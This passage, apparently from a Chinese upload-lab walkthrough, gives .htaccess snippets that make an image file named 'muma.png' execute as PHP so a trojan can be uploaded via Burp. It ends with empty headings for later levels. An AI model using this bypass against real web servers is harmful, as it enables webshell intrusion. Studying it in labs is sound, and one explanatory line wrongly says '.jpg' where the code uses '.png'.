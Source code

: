 ##### 	.htaccess 绕过

.htaccess 文件代码可编写如下，这个.htaccess 的意思就是把所有名字里面含有 muma.png（名字随便取）的文件当成 php 脚本来执行：

```css
<FilesMatch "muma.png">
  SetHandler application/x-httpd-php
</FilesMatch>
```

.htaccess 的另一种写法，这里代码的意思可以让 .jpg 后缀名文件格式的文件名以 php 格式解析：

```css
<FilesMatch "muma.png">
  AddType application/x-httpd-php .png
</FilesMatch>
```

通过 BP 上传.htaccess 文件后，就可以上传包含木马的.png 文件。

#### Pass-05

#### Pass-06

#### Pass-07

#### Pass-08

#### Pass-09

#### Pass-10

#### Pass-11

#### Pass-12

#### Pass-13

#### Pass-14

#### Pass-15

#### Pass-16

#### Pass-17

#### Pass-18

#### Pass-19

#### Pass-20

#### Pass-21
